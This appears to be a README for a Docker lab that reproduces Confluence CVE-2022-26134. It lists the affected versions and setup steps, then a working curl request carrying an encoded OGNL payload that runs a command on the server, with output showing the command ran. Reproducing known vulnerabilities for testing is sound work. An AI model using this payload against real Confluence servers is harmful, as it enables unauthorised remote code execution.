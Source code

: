 # Confluence CVE-2022-26134 OGNL vulnerability

This vulnerability affects Confluence Server and Confluence Data Center. It allows an attacker to send a specially crafted HTTP request to abuse OGNL within Confluence, leading to remote code execution.

In order for this vulnerability to be exploitable, the following conditions must be met:
* Use versions of Confluence lower than 7.4.17, 7.13.7, 7.14.3, 7.15.2, 7.16.4, 7.17.4 and 7.18.1
* Confluence is configured (can't use a server that hasn't been installed and not connected to a DB)


## Running the application

Run it:

```
docker-compose up
```

Install confluence

1. Navigate to `localhost:8090`
2. Get a trial license (this won't work without one)
3. It'll take a while to configure, make sure you have 3-4gb of RAM
4. Use a test site/template, and use confluence to manage users. Fill in default for admin
5. Once you get past the admin creation step, you can run the exploit

## Exploitation steps

```
curl -v http://localhost:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/pwned%22%29%7D/
```

Output:

```
└> curl -v http://localhost:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/pwned%22%29%7D/
*   Trying ::1...
* TCP_NODELAY set
* Connected to localhost (::1) port 8090 (#0)
> GET /%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/pwned%22%29%7D/ HTTP/1.1
> Host: localhost:8090
> User-Agent: curl/7.64.1
> Accept: */*
>
< HTTP/1.1 302
< Cache-Control: no-store
< Expires: Thu, 01 Jan 1970 00:00:00 GMT
< X-Confluence-Request-Time: 1654294225669
< Set-Cookie: JSESSIONID=A12C784ACFF928E9155587F78E9EC0C0; Path=/; HttpOnly
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< Content-Security-Policy: frame-ancestors 'self'
< Location: /login.action?os_destination=%2F%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch+%2Ftmp%2Fpwned%22%29%7D%2Findex.action&permissionViolation=true
< Content-Type: text/html;charset=UTF-8
< Content-Length: 0
< Date: Fri, 03 Jun 2022 22:10:25 GMT
<
* Connection #0 to host localhost left intact
* Closing connection 0
```

Exec into the container

```
└> docker exec -it vulnerable-confluence bash

root@b2db3bfbe364:/var/atlassian/application-data/confluence# ls -lah /tmp
total 12K
drwxrwxrwt 1 root       root       4.0K Jun  3 22:12 .
drwxr-xr-x 1 root       root       4.0K Jun  3 19:56 ..
drwxr-xr-x 2 confluence confluence 4.0K Jun  3 22:07 hsperfdata_confluence
-rw-r----- 1 confluence confluence    0 Jun  3 22:10 pwned
```
